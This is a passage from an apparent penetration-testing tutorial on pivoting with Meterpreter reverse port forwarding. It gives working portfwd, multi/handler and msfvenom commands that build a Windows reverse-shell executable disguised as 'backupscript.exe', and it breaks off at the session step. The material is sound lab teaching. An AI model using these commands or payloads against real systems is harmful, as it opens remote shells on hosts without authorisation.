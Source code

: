 ```bash
netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```
## Meterpreter Reverse Port Forwarding

We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`. We will also configure our listener to listen on port 8081 for a Windows shell.
#### Reverse Port Forwarding Rules

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```
#### Configuring & Starting multi/handler

```bash
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `172.16.5.129`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

#### Generating the Windows Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
#### Establishing the Meterpreter session
